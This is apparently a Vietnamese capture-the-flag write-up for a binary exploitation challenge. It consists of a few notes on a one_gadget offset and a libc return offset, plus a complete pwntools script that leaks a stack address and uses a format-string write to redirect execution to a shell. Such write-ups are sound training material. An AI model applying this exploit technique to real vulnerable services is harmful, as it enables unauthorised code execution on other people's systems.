![image](https://hackmd.io/_uploads/HJbqMBtDJl.png)

one_gadget : trong bài có ```pop r12``` và ```pop rbx``` -> ta sẽ dùng ```0xef4ce```

![image](https://hackmd.io/_uploads/Sk1d7HYDJg.png)

- libc_start_main_ret ở offset thứ 25 


![image](https://hackmd.io/_uploads/rknX4HFP1g.png)


script 

```
from pwn import *


#p = remote('34.42.147.172', 4003)
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
#gdb.attach(p,gdbscript='''
#           b*main
#          brva 0x00000000000014A9
#           brva 0x000000000000152A
#           brva 0x000000000000141E
#           brva 0x000000000000159C
#           ''')
input()
l = ELF('./libc.so.6')
p.recvuntil(b'(gift/flag)')
p.send(b'%p%p%p%p%')
leak = int(p.recvuntil(b'r')[1:-1], 16) - 0x180
print(hex(leak))
ref = 0x00007ffff7dd51ca - 0x7ffff7dab000
og = 0x583dc
#print(hex(ref))
p.sendlineafter(b'...',b"")
payload =  b"%*25$c"
payload += f"%{og-ref}c".encode()
payload += b"%16$n"
payload += b"A" * (80 - len(payload))
payload += p64(leak)

print(payload)

p.sendlineafter(b"Input :", payload)
p.interactive()
```
